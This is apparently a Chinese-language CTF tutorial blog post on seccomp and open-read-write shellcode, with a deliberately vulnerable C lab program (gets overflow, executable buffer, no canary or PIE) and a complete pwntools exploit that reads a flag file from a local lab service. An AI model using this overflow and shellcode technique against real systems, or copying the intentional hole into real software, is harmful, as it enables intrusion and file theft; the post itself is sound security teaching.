 ```yaml
---
title: "Day19－Shellcode Bonus－ORW"
date: 2024-09-19
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天我們將介紹一些簡單的知識，並在最後提供一個練習 Lab。看完前面的內容，大家可能會想：「如果我們可以調用 `execve`，那是否就能拿到 shell 呢？」這確實沒錯，但還有一種方法可以防止使用者調用 `execve` 系統呼叫 (syscall)，這就是 `seccomp` 的機制。

## Seccomp (secure computing mode)

`seccomp` 是 Linux 核心用來禁用特定系統呼叫的機制，透過 `Seccomp BPF` 可以設定對某些 syscall 的過濾規則。例如，可以限制 `execve`，甚至 `open`、`read`、`write` 等等。

但在實作這些規則後，逆向工程的過程可能變得不直觀且困難理解。為了簡化分析，`one gadget` 工具的作者還開發了一個工具，叫做 `seccomp-tools`，非常適合這類情況。

## [seccomp-tools](https://github.com/david942j/seccomp-tools)

**筆者提供的環境中已經安裝了該工具**

這個工具能分析程式的 `seccomp` 規則，並將結果轉換成直觀的 `if-else` 形式的 pseudo code。這讓我們能輕鬆看出程式允許或限制了哪些 syscall，非常適合處理複雜的 `seccomp` 規則。

使用方式如下：

```bash=
seccomp-tools dump ./[binary]
```

![image](/images/iron2024/day19_image1.png)

## Lab

查看以下原始碼：

```c=
#include <stdio.h>
#include <sys/mman.h>
#include <unistd.h>
#include "seccomp-bpf.h"

void apply_seccomp() {
    struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        KILL_PROCESS,
    };

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(struct sock_filter)),
        .filter = filter,
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)) {
        perror("Seccomp Error");
        exit(1);
    };
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog)) {
        perror("Seccomp Error");
        exit(1);
    };
}
char shellcode[0x100];
int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    apply_seccomp();
    printf("I add new rule to prevent you from using system().\n");
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

## writeup

可以發現程式將 `shellcode` 陣列的位置修改為可讀、可寫、可執行，並且在程式中允許使用者輸入 shellcode。程式中最關鍵的是 `gets` 的 buffer overflow 且沒有開啟 PIE 與 Canary，這讓我們能夠控制 return address。再者，程式使用了 `Seccomp` 規則，只允許 `open`、`read`、`write` 這三個 syscall，因此我們無法使用 `execve` 獲取 shell。此時我們可以透過 `seccomp-tools` 來確認。

![image](/images/iron2024/day19_image2.png)

換個角度思考，我們獲取 shell 的目的是為了拿到 flag。程式允許我們開啟檔案、讀取檔案並輸出內容，因此如果知道 flag 的位置，我們可以直接開檔讀取並輸出，如此即可拿到 flag。接下來我們需要確認幾件事：

- flag 檔案的位置
- 如何開啟、讀取、輸出檔案
- shellcode 的位置

首先，讓我們查看提供的檔案目錄：

![image](/images/iron2024/day19_image3.png)

從 `Dockerfile` 開始分析，會發現 Docker 創建了 `ubuntu:22.04` 的容器，並且設定了與網路服務相關的 `xinetd`。從目錄結構可以推測 flag 位於 `/home/orw/flag`。

```dockerfile=
FROM ubuntu:22.04
LABEL org.opencontainers.image.authors="YJK"
RUN apt-get update
RUN apt-get install xinetd -y
RUN useradd -m orw
RUN chown -R root:root /home/orw
RUN chmod -R 755 /home/orw
CMD ["/usr/sbin/xinetd", "-dontfork"]
```

以下是負責此題的 `docker-compose.yml`，可以看到 `orw/share` 被掛載到容器的 `/home/orw`，因此 flag 的位置應該是 `/home/orw/flag`。

```yml=
orw:
    build: ./orw
    volumes:
      - ./orw/share:/home/orw:ro
      - ./orw/xinetd:/etc/xinetd.d/orw:ro
    ports:
      - "10010:10005"
```

接下來，我們可以透過 `pwntools` 的 `shellcraft` 來生成可以開啟 `/home/orw/flag` 並讀取其內容的 shellcode。

以下程式就會生成可以使用來開啟 `/home/orw/flag` 再讀檔並輸出到 stdin 的 shellcode，那基本上這段程式的執行大概會是先將 `'/home/orw/flag'` 字串放到 stack，並且再透過 `open` 將 `rsp` 的內容，也就是剛剛放入 stack 的檔案路徑打開，並且後面的兩個 0 是作為設定開檔模式與設定權限的部分，再來透過 `read` 將 `rsp` 指向的檔案讀取並儲存，`rax` 是用來讀取檔案，再來透過 `write` 將 `rsp` 剛剛讀取並存入的內容輸出，並且前面的 1 為設定為 stdin，在此時即可以看到檔案內容

```py=
shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))
```

最後，我們需要確認溢出的 padding 和跳轉的地址。可以使用 `nm` 確定 shellcode 的地址。

![image](/images/iron2024/day19_image4.png)

使用 `objdump` 可以發現輸入從 `rbp-0x20` 開始，因此我們需要填充 0x20+0x8 的資料，然後跳轉到 shellcode。

![image](/images/iron2024/day19_image5.png)

完整 exploit：

```py=
from pwn import *
context.arch = 'amd64'
# r = process('../orw/share/orw')
r = remote('127.0.0.1', 10010)

shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))

r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x4040a0)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved!!!

![image](/images/iron2024/day19_image6.png)
